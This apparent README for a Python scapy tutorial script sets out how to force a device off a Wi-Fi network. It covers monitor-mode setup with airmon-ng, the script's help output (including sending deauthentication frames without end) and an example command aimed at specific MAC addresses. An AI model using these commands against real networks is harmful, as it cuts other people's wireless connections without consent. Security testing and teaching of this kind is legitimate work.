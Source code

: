 # [Forcing a device to disconnect using scapy in Python](https://www.thepythoncode.com/article/force-a-device-to-disconnect-scapy)
to run this:
- Linux Machine.
- USB WLAN Stick.
- aircrack-ng.
- Turn the network interface to Monitor mode using the command:
    ```
    airmon-ng start wlan0
    ```
- `pip3 install -r requirements.txt`.
- 
    ```
    python3 scapy_deauth.py --help
    ```
    **Output**:
    ```
    usage: scapy_deauth.py [-h] [-c COUNT] [--interval INTERVAL] [-i IFACE] [-v]
                         target gateway

    A python script for sending deauthentication frames

    positional arguments:
    target                Target MAC address to deauthenticate.
    gateway               Gateway MAC address that target is authenticated with

    optional arguments:
    -h, --help            show this help message and exit
    -c COUNT, --count COUNT
                            number of deauthentication frames to send, specify 0
                            to keep sending infinitely, default is 0
    --interval INTERVAL   The sending frequency between two frames sent, default
                            is 100ms
    -i IFACE              Interface to use, must be in monitor mode, default is
                            'wlan0mon'
    -v, --verbose         wether to print messages
    ```
    For instance, if you want to deauthenticate `"00:ae:fa:81:e2:5e"` on an access point `"e8:94:f6:c4:97:3f"`, you can easily by:
    ```
    python3 scapy_deauth.py 00:ae:fa:81:e2:5e e8:94:f6:c4:97:3f -i wlan0mon -v
    ```